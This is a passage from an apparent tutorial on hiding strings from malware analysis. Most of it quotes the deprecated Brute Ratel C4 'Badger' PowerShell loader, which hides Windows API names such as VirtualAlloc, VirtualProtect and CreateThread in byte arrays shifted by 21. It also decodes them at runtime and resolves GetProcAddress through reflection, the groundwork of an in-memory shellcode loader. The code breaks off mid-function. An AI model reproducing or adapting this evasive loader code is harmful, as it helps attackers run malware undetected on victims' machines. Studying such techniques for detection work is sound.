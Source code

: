 ```c
	return 0;
}
```

We should no longer have any identifiable string information, and the program is safe from string analysis.

---

As an example for an interpreted language we can observe the deprecated [Badger PowerShell loader](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1) from the [BRC4 Community Kit](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit).

```powershell
Set-StrictMode -Version 2
[Byte[]] $Ait1m = @(0x3d, 0x50, 0x51, 0x57, 0x50, 0x4e, 0x5f, 0x50, 0x4f, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50)
[Byte[]] $ahv3I = @(0x34, 0x59, 0x38, 0x50, 0x58, 0x5a, 0x5d, 0x64, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50)
[Byte[]] $Moo5y = @(0x38, 0x64, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50, 0x3f, 0x64, 0x5b, 0x50)
[Byte[]] $ooR5o = @(0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x3e, 0x50, 0x4c, 0x57, 0x50, 0x4f, 0x17, 0x0b, 0x2c, 0x59, 0x5e, 0x54, 0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x2c, 0x60, 0x5f, 0x5a, 0x2e, 0x57, 0x4c, 0x5e, 0x5e)
[Byte[]] $Reo5o = @(0x3d, 0x60, 0x59, 0x5f, 0x54, 0x58, 0x50, 0x17, 0x0b, 0x38, 0x4c, 0x59, 0x4c, 0x52, 0x50, 0x4f)
[Byte[]] $Reib3 = @(0x3d, 0x3f, 0x3e, 0x5b, 0x50, 0x4e, 0x54, 0x4c, 0x57, 0x39, 0x4c, 0x58, 0x50, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e)
[Byte[]] $Thah8 = @(0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x39, 0x50, 0x62, 0x3e, 0x57, 0x5a, 0x5f, 0x17, 0x0b, 0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57)
[Byte[]] $ii5Ie = @(0x34, 0x59, 0x61, 0x5a, 0x56, 0x50)
[Byte[]] $KooG5 = @(0x38, 0x54, 0x4e, 0x5d, 0x5a, 0x5e, 0x5a, 0x51, 0x5f, 0x19, 0x42, 0x54, 0x59, 0x1e, 0x1d, 0x19, 0x40, 0x59, 0x5e, 0x4c, 0x51, 0x50, 0x39, 0x4c, 0x5f, 0x54, 0x61, 0x50, 0x38, 0x50, 0x5f, 0x53, 0x5a, 0x4f, 0x5e)
[Byte[]] $io9iH = @(0x32, 0x50, 0x5f, 0x3b, 0x5d, 0x5a, 0x4e, 0x2c, 0x4f, 0x4f, 0x5d, 0x50, 0x5e, 0x5e)
[Byte[]] $Qui5i = @(0x32, 0x50, 0x5f, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50, 0x33, 0x4c, 0x59, 0x4f, 0x57, 0x50)
[Byte[]] $xee2N = @(0x56, 0x50, 0x5d, 0x59, 0x50, 0x57, 0x1e, 0x1d)
[Byte[]] $AD0Pi = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x2c, 0x57, 0x57, 0x5a, 0x4e)
[Byte[]] $ahb3O = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x3b, 0x5d, 0x5a, 0x5f, 0x50, 0x4e, 0x5f)
[Byte[]] $yhe4c = @(0x2E, 0x5D, 0x50, 0x4C, 0x5F, 0x50, 0x3F, 0x53, 0x5D, 0x50, 0x4C, 0x4F)

function Get-Robf ($b3tz) {
    $aisN = [System.Byte[]]::new($b3tz.Count)
    for ($x = 0; $x -lt $aisN.Count; $x++) {
       $aisN[$x] = ($b3tz[$x] + 21)
    }
    return [System.Text.Encoding]::ASCII.GetString($aisN)
}
function Get-PA ($vmod, $vproc) {
    $a = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType((Get-Robf $KooG5))
    return ($a.GetMethod((Get-Robf $io9iH), [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null)).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($a.GetMethod((Get-Robf $Qui5i))).Invoke($null, @($vmod)))), $vproc))
}
function Get-TDef {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
```